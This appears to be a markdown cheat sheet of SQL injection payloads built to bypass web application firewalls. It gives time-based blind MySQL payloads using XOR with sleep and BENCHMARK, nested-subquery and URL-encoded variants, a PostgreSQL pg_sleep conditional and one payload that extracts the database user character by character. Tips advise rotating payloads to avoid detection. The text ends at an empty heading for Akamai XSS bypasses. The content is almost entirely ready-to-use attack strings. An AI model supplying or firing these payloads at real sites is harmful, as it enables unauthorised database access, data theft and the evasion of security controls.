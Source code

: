 
## SQL Injection XOR WAF Bypass Methodology

### Time-Based XOR Payloads
*XOR-based payloads using sleep functions for blind SQL injection*

```sql
'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
X'XOR(if(now()=sysdate(),//sleep(10)//,0))XOR'X
X'XOR(if(now()=sysdate(),(sleep(10)),0))XOR'X
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(10*1),0))XOR'Z
XOR(if(now()=sysdate(),sleep(7),0))XOR%23
```

### Nested Query XOR Payloads
*Complex nested queries with XOR operations for WAF evasion*

```sql
X'XOR(if((select now()=sysdate()),BENCHMARK(10000000,md5('xyz')),0))XOR'X
'XOR(SELECT(0)FROM(SELECT(SLEEP(10)))a)XOR'Z
(SELECT(0)FROM(SELECT(SLEEP(10)))a)'XOR(if(now()=sysdate(),sleep(10),0))OR'
'%2b(select*from(select(sleep(10)))a)%2b'
1'%2b(select*from(select(sleep(10)))a)%2b'
```

### Conditional XOR Payloads
*XOR payloads with conditional logic for WAF bypass*

```sql
'OR (CASE WHEN ((CLOCK_TIMESTAMP() - NOW()) < '0:0:10') THEN (SELECT '1'||PG_SLEEP(10)) ELSE '0' END)='1
if(now()=sysdate(),sleep(10),0)/'XOR(if(now()=sysdate(),sleep(10),0))OR'
if(now()=sysdate(),sleep(10),0)/'XOR(if(now()=sysdate(),sleep(10),0))OR''XOR(if(now()=sysdate(),sleep(10),0) and 1=1)'/
'%20and%20(select%20%20from%20(select(if(substring(user(),1,1)='p',sleep(10),1)))a)--%20
```

**Tips:**
- Rotate payloads to avoid detection.
- Adjust sleep times for response patterns.
- Use selective URL encoding.
- Combine XOR with other SQL ops.
- Test payloads with varied string terminators.
- Monitor response times carefully.
- Use nested queries for bypass.
- Match payloads to DB type.

---

## XSS WAF Bypass Methodology

### Akamai WAF Bypasses
